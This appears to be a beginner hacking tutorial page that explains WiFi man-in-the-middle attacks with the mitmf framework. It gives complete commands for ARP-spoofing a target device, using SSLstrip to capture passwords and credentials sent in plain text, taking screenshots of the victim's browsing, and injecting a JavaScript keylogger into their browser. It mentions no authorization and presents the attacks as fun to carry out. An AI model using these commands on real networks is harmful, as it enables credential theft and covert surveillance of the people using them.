

Here we shall talk about basic hacking and penetration testing. You can
choose one of the type of hacks below.
Wifi Sniffing using MiTM attacks
You will need kali linux or any other linux distro with the specific tools
installed. For kali linux, click on
the link below. You will also need kali-linux compatible WiFi adapter for monitor mode and
packet sniffing/injection.
How to install the packages
Open the terminal window and install the package if not installed.
Here, we'll be using mitmf (Man in the middle framework), to spoof the devices.
If you're using Debian or Debian-based distro,
type:
apt update && apt install mitmf
If you're using Arch linux (you're awesome), then use pacman to install the tools.
pacman -S mitmf
NOTE: You should already have access to the WiFi network. If
you want to know how to gain access, please check out the WiFi hacking page of this site.
Now, how this kind of attack works is, the attacker spoofs the user by sending a message
that he's the router, and spoofs the router that he is that user.
Example, lets take the router's IP as 192.168.1.1, the user's is 192.168.1.3, and the attacker's
is 192.168.1.5.
The attacker tells the router that he's 192.168.1.3, and the user that he's 192.168.1.1. So now,
the user's traffic flows through the attacker's computer. So he can analyse the traffic, inject
code onto
the user's browser, and do loads of cool stuff.

We'll be using a framework called mitmf.
Assuming that the given IPs above is the case [please change it in your case], I am going to use
this tool.
To spoof the user and the router, type: mitmf --arp --spoof --gateway 192.168.1.1 --target 192.168.1.3 -i wlan0
Where "wlan0" is the wireless interface connected to the said network.
After the command is executed, ARP [Address Resolution Protocol] spoof kicks in, which is
basically becoming the MiTM.
But using the mitmf has extra perks for beginners. It has SSLstrip enabled by default, which
turns any
HTTPS site to HTTP site, where the data is sent in plain text, so we can sniff passwords and
credentials.
Now when the user visits any site, enters any passwords, it'll be displayed on your terminal
screen.
Now, we will try to take screenshots and launch a keylogger in the target system.
For screenshot, type the below command: mitmf --arp --spoof --gateway 192.168.1.1 --target 192.168.1.3 -i wlan0 --screen
Now, if you're using Kali Linux, the pictures will be stored in /var/log/mitmf
Now for a keylogger,
We'll have to inject JS code which will capture keystrokes of the user.
So type: mitmf --arp --spoof --gateway 192.168.1.1 --target 192.168.1.3 -i wlan0 --jskeylogger